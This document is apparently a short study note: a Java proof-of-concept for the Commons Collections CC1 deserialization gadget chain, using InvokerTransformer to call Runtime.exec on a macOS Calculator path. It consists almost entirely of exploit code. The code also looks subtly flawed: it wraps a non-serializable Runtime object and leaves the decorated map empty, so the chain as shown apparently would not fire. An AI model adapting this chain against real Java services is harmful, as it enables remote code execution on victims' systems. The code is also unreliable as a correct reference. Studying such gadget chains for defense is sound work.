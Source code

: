 







#### 第一个poc demo

```java
package org.example2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CCC1 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc1("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);
    }

    static Object cc1(String args) throws Exception{
        Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[] {args}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object obj =  declaredConstructor.newInstance(Target.class, outerMap);  //transformerMap
        return obj;
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }
}
```